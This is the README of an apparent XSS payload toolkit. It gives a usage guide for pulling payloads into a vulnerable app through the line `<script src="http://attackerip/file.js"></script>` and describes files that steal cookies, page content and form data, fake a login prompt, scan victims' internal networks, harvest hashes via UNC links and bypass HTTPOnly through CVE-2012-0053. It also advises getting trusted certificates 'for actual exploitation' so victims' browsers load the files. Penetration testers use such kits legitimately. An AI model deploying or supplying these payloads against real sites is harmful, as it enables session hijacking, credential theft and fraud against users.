 # xss_payloads

Payloads for practical exploitation of cross site scripting.

## Usage

1. Find XSS vuln in your app
2. Get PoC exploit: alert(1) etc
3. Host these payloads somewhere
4. Use vuln to pull one of these payloads into the app `<script src="http://attackerip/file.js"></script>`
5. Profit

## js vs php files

Some of the files are plain JavaScript .js files, others are PHP scripts which serve JavaScript when rendered in order to do some more complex stuff. Make sure you have a PHP interpreter running on your web server of choice to get these to work `</obvious>`

## Common Problems

* You can't serve these over HTTP if your app is running on HTTPS. You'll need to serve them over HTTPS
* If you're running these over HTTPS for actual exploitation rather than a PoC, you'll need a proper trusted TLS cert (Let's Encrypt CA, for example) otherwise victim's browsers won't fetch the files at all. If it's for a PoC you can just temporarily trust your self signed cert.
* Hit F12 and view the debug console for any information about why a particular script might not work


## Generator

`generator.php` is a tool which can help to load one of the below payloads or to inject a custom payload using various injection, execution and encoding options.

## Payloads

### apache_httponly_bypass.js

Uses an excessively large cookie to exploit CVE-2012-0053 and extract HTTPOnly cookie values from the response.

### contentstealer.php

Steal the content of the current page, a specific element or another page within the same origin as the exploited web app.

### cookiestealer.php

Steal cookies from the site.

### formjacker.php 

Man-in-the-middle all forms on the current page and also exploit browser autofill functionality in order to steal personal information.

### formsubmitter.php

Grab a page from somewhere within the same origin, fill in a form on it and then submit that form.

### local_network_scan.php

Get the internal IP address of a victim and then have them do a TCP port scan of common ports on the /24 of that internal IP address.

### loginpage.php

Pop up a login page which sends the entered credentials back to this URL.

### recon.php ###

Passes back information about where it was executed:

 - page URL
 - script URL
 - user's IP address
 - Page content
 - Any non HttpOnly cookies present
 - User agent string

And then logs it all into either a file or a database. Great for when a collaborator alert is generated asynchronously and you need more info about where execution is occuring.

### unc_hashstealer.php

Fire up Responder.py on the same host as this script and then inject this payload. All links on the injected page will be turned into UNC paths to the same host.
